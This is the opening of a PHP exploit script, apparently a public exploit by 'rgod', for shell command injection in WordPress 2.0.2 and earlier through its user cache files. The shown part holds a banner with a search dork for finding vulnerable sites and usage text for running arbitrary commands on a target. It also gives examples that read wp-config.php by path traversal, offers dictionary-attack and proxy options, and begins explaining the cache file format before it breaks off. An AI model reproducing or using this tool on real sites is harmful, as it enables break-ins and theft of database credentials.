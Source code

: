 EXP
---

    #!/usr/bin/php -q -d short_open_tag=on
    <?
    echo "--------------------------------------------------------------------\r\n";
    echo "| WordPress <= 2.0.2 'cache' shell injection exploit               |\r\n";
    echo "| by rgod rgod@autistici.org                                       |\r\n";
    echo "| site: http://retrogod.altervista.org                             |\r\n";
    echo "| dork: inurl:wp-login.php Register Username Password -echo        |\r\n";
    echo "--------------------------------------------------------------------\r\n";

    /*
    this works:
    regardless of all php.ini settings,
    if user registration is enabled,
    against an empty or weak MySQL DB password (read explaination for details...)
    */

    if ($argc<6) {
    echo "Usage: php ".$argv[0]." host path user pass cmd OPTIONS             \r\n";
    echo "host:      target server (ip/hostname)                              \r\n";
    echo "path:      path to WordPress                                        \r\n";
    echo "cmd:       a shell command                                          \r\n";
    echo "user/pass: you need a valid user account                            \r\n";
    echo "Options:                                                            \r\n";
    echo "   -D[dicrionary] specify a textfile and try dictionary attack      \r\n";
    echo "   -p[port]:        \"  a port other than 80                        \r\n";
    echo "   -P[ip:port]:     \"  a proxy                                     \r\n";
    echo "Examples:                                                           \r\n";
    echo "php ".$argv[0]." localhost /wordpress/ your_username password ls -la -Ddic.txt\r\n";
    echo "php ".$argv[0]." localhost /wordpress/ your_username password cat ./../../../wp-config.php -p81\r\n";
    echo "php ".$argv[0]." localhost / your_username password ls -la -P1.1.1.1:80\r\n\r\n";
    die;
    }

    /* explaination:

      i) wordpress stores some user informations inside cached files
       in wp-content/cache/userlogins/ and wp-content/cache/users/ folders, they are
       php files.
       Normally they look like this:

       <?php
       //O:8:"stdClass":23:{s:2:"ID";s:3:"106";s:10:"user_login";s:6:"suntzu";s:9:"user_pass";s:32:"a2b0f31cd94e749b58307775462e2e4b";s:13:"user_nicename";s:6:"suntzu";s:10:"user_email";s:18:"suntzoi@suntzu.org";s:8:"user_url";s:0:"";s:15:"user_registered";s:19:"2006-05-24 23:00:42";s:19:"user_activation_key";s:0:"";s:11:"user_status";s:1:"0";s:12:"display_name";s:6:"suntzu";s:10:"first_name";s:0:"";s:9:"last_name";s:0:"";s:8:"nickname";s:6:"suntzu";s:11:"description";s:0:"";s:6:"jabber";s:0:"";s:3:"aim";s:0:"";s:3:"yim";s:0:"";s:15:"wp_capabilities";a:1:{s:10:"subscriber";b:1;}s:13:"wp_user_level";s:1:"0";s:10:"user_level";s:1:"0";s:14:"user_firstname";s:0:"";s:13:"user_lastname";s:0:"";s:16:"user_description";s:0:"";}
       ?>
